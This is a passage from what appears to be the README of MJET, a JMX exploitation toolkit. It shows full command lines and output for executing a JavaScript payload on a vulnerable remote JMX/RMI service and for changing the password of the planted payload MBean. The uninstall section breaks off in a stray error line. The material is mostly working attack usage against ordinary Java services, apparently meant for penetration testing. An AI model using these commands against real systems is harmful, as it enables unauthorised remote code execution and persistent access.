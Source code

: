 
### Invoke a JavaScript payload on a target:

The example script "javaproperties.js" displays the Java properties of the vulnerable
service. It can be invoked as follows:

```
h0ng10@rocksteady ~/w/mjet> jython mjet.py 10.165.188.23 2222 javascript super_secret scripts/javaproperties.js 

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Connected: rmi://10.165.188.1  6
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Executing script
awt.toolkit=sun.awt.X11.XToolkit
java.specification.version=11
sun.cpu.isalist=
sun.jnu.encoding=UTF-8
java.class.path=/usr/share/tomcat8/bin/bootstrap.jar:/usr/share/tomcat8/bin/tomcat-juli.jar
com.sun.management.jmxremote.authenticate=false
java.vm.vendor=Oracle Corporation
sun.arch.data.model=64
...


[+] Done

```

### Change the password

Change the existing password ("super_secret") to "this-is-the-new-password":

```
h0ng10@rocksteady ~/w/mjet> jython mjet.py 10.165.188.23 2222 changepw super_secret this-is-the-new-password

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Connected: rmi://10.165.188.1  7
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Successfully changed password
[+] Done

```

### Uninstall the payload MBean from the target


Uninstall the payload MBean 'MogwaiLabs' from the target:


[?]: Returned error: